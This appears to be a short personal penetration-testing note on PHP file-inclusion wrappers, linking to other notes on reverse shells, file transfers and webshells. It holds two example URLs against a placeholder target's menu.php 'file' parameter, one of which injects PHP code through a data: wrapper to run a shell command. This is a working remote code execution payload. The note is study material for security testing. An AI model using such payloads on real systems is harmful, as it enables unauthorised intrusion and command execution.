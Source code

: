 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Wrappers

```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```

```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

![[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]

[[4._File Transfers]]

---

[[0._PHP_Webshells#PHP]]